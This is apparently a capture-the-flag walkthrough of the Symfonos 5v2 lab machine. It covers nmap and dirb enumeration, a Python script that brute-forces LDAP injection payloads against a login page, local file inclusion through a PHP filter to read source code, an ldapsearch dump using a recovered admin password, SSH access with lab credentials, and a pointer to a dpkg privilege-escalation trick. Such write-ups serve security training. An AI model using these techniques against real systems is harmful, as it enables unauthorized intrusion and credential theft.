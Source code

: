 SYMFONOS 5V2

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1 [Discovery host]()
	1.2 [Service Enum]()
	1.3 [Web]()
		1.3,1 [Gobuster enum web content]()
		1.3.2 [Downloading and reading .log files]()

2. [Exploitation]()
	2.1 [Bypass login sqli]()
	2.2 [LFI (local file inclusion)  - using bash to generate payloads]()
		2.2.1 [Reverse shell]()

3. [Post exploitation]()
	3.1 [Remote forwarding with ssh]()
	3.2 [Web 8080]()
		3.2.1 [Gobuster enum web content]()
		3.2.2 [Python Pickle without exploit to get root]()
		3.2.3 [Python Pickle with coding exploit to get root]()

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![5c85eeec9fcbcf370e825d573ebbcd96.png](./_resources/deafa02fa26b4a93b959080a6e9e7c3c.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.128 -oN full_service_enum-sC.txt`
![fac1583f3d1c8e3279936256b3cdb1d6.png](./_resources/34b390e29a164a6d9f89e36b85e7c5fd.png)

## 1.3 Web
![1d07ec80db792f70f1ca01ce5c71cb39.png](./_resources/bff54c526e9f415da0473817d0ed14df.png)

### 1.3.1 Wappalyzer
![e417e2de566f14691ed766389420ca6b.png](./_resources/5ce1e98fbe8043fa835ecfcdcc6ef712.png)

## 1.3.2 Dirb enum web content
`dirb http://192.168.196.128`
![4d40c830929a49cedc6d5dd162fb7ae1.png](./_resources/0a0b1081cd534842beacb5c5693314ea.png)


# 2 Exploitation 
Since we have a login page with php (80) and ldap port (389), becomes deductible that the login is based on ldap authentication.

## 2.1 Ldap injection - burpsuit intruder 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md
![b549598719eae6ffb3f1b5563a768d5c.png](./_resources/63b6957412504f2691fe4123f66fb415.png)
At one point it returns responses of different length.

## 2.1 Ldap injection - automation python script
```
# Script para ldap injection - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

import requests
import re

def brute(target, headers):
    f = open("ldapi-payloads.txt", "r")
    for i in f:
        params = (
            ('username', i),
            ('password', 'teste'),
        )
            
        response = requests.get('http://'+target+'/admin.php', headers=headers, params=params, verify=False)

        try:
            re.findall(r'Invalid', response.content)[0]

        except IndexError:
            print ("Payload encontrada: %s" %i)


def main():
    target = '192.168.196.130'

    headers = {
        'Host': target,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Referer': 'http://192.168.196.130/admin.php',
        'Upgrade-Insecure-Requests': '1',
    }
    brute(target, headers)


main()
````

## 2.2 Local file inclusion after login
![ee4356d8b67bedd8fbe989f961e86a1a.png](./_resources/5ae134b2455e48ef937780e99b675901.png)
A normal payload (/etc/passwd) works, and there was an attempt to read admin.php for analyse its code, but it is rendered. We dont need an rendered page, we need read it. For it was used php filter:
![ebc7c3f32e61d368c35bed337b2f09b0.png](./_resources/ac7266981ca346009b6e1f99f807e39c.png)
Ant it works.

Now we can decode and read it:
![3464297aaa1f79da24548da3b2040de7.png](./_resources/2a0c9a6803084a9f90290106b50f93a2.png)

Let’s use these credentials to dump all the information using ldap.
```
ldapsearch -x -LLL -h 192.168.196.128 -D 'cn=admin,dc=symfonos,dc=local' -w qMDdyZh3cT6eeAWD -b 'dc=symfonos,dc=local'
```
![6acd37b2c09c51c28a9df47a04433b43.png](./_resources/0ad781d9c6d3402a998e79935d88a86c.png)

## 2.2.1 SSH using zeus account
zeus:cetkKf4wCuHC9FET
![bd224c6770df272f225fe539ea0ca4ca.png](./_resources/5dc5e9268fd14d818a4f9a0a1029579b.png)


# 3 Post-exploitation
https://gtfobins.github.io/gtfobins/dpkg/

LinEnum.sh returned some good informations:
![a8930b15a4e6fea2c76677d100e8a15d.png](./_resources/e2c3119d4ddc4a09861c59075575c8ac.png)
![ca2b481efa73145d38df2a60fd66df71.png](./_resources/e078831174654845bf64330c71c2d07d.png)